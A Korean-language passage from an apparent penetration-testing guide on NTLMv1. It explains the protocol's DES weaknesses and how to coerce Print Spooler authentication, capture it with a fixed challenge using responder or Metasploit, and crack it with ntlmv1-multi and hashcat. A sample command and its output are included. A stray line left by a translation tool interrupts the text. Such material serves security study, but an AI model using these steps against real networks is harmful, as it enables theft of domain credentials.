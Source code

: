서버와 도메인 컨트롤러는 Netlogon 서버를 통해 보안 채널을 생성할 수 있으며, 도메인 컨트롤러는 서버의 비밀번호를 알고 있습니다(비밀번호는 NTDS.DIT 데이터베이스에 있습니다).

### Local NTLM authentication Scheme

인증은 이전에 언급한 것과 같지만 서버는 SAM 파일 내에서 인증을 시도하는 사용자의 해시를 알고 있습니다. 따라서 도메인 컨트롤러에 요청하는 대신, 서버가 직접 사용자가 인증할 수 있는지 확인합니다.

### NTLMv1 Challenge

챌린지 길이는 8바이트이고 응답은 24바이트입니다.

해시 NT(16바이트)는 각각 7바이트의 3부분으로 나뉘며(7B + 7B + (2B+0x00\*5)), 마지막 부분은 0으로 채워집니다. 그런 다음 챌린지는 각 부분과 별도로 암호화되고 결과적으로 암호화된 바이트가 결합됩니다. 총: 8B + 8B + 8B = 24Bytes.

**문제**:

- 무작위성 부족
- 3부분이 각각 공격당할 수 있어 NT 해시를 찾을 수 있음
- DES는 깨질 수 있음
- 3번째 키는 항상 5개의 0으로 구성됨
- 동일한 챌린지에 대해 응답은 동일함. 따라서 피해자에게 "1122334455667788" 문자열을 챌린지로 제공하고 사전 계산된 레인보우 테이블을 사용하여 응답을 공격할 수 있습니다.

### NTLMv1 attack

현재는 제약 없는 위임이 구성된 환경을 찾는 것이 점점 덜 일반적이지만, 구성된 Print Spooler 서비스를 악용할 수 없다는 의미는 아닙니다.

AD에서 이미 가지고 있는 자격 증명/세션을 악용하여 프린터가 당신의 제어 하에 있는 호스트에 대해 인증하도록 요청할 수 있습니다. 그런 다음 `metasploit auxiliary/server/capture/smb` 또는 `responder`를 사용하여 인증 챌린지를 1122334455667788로 설정하고 인증 시도를 캡처할 수 있으며, NTLMv1을 사용하여 수행된 경우 이를 크랙할 수 있습니다.\
`responder`를 사용하는 경우 인증을 다운그레이드하기 위해 `--lm` 플래그를 사용해 볼 수 있습니다.\
_이 기술을 사용하려면 인증이 NTLMv1을 사용하여 수행되어야 합니다(NTLMv2는 유효하지 않음)._

프린터는 인증 중에 컴퓨터 계정을 사용하며, 컴퓨터 계정은 일반적으로 크랙할 수 없는 긴 무작위 비밀번호를 사용합니다. 그러나 NTLMv1 인증은 DES를 사용하므로([자세한 정보는 여기](#ntlmv1-challenge)), DES 크랙 전용 서비스들을 사용하면 이를 크랙할 수 있습니다(예: [https://crack.sh/](https://crack.sh) 또는 [https://ntlmv1.com/](https://ntlmv1.com) 사용).

### NTLMv1 attack with hashcat

NTLMv1은 NTLMv1 Multi Tool [https://github.com/evilmog/ntlmv1-multi](https://github.com/evilmog/ntlmv1-multi)로도 크랙할 수 있으며, 이는 NTLMv1 메시지를 hashcat으로 크랙할 수 있는 방법으로 포맷합니다.

명령
```bash
python3 ntlmv1.py --ntlmv1 hashcat::DUSTIN-5AA37877:76365E2D142B5612980C67D057EB9EFEEE5EF6EB6FF6E04D:727B4E35F947129EA52B9CDEDAE86934BB23EF89F50FC595:1122334455667788
```
Sure, please provide the text you would like me to translate.
```bash
['hashcat', '', 'DUSTIN-5AA37877', '76365E2D142B5612980C67D057EB9EFEEE5EF6EB6FF6E04D', '727B4E35F947129EA52B9CDEDAE86934BB23EF89F50FC595', '1122334455667788']

Hostname: DUSTIN-5AA37877
Username: hashcat
Challenge: 1122334455667788
LM Response: 76365E2D142B5612980C67D057EB9EFEEE5EF6EB6FF6E04D
NT Response: 727B4E35F947129EA52B9CDEDAE86934BB23EF89F50FC595
CT1: 727B4E35F947129E
CT2: A52B9CDEDAE86934
CT3: BB23EF89F50FC595

To Calculate final 4 characters of NTLM hash use:
./ct3_to_ntlm.bin BB23EF89F50FC595 1122334455667788

To crack with hashcat create a file with the following contents:
727B4E35F947129E:1122334455667788
A52B9CDEDAE86934:1122334455667788
```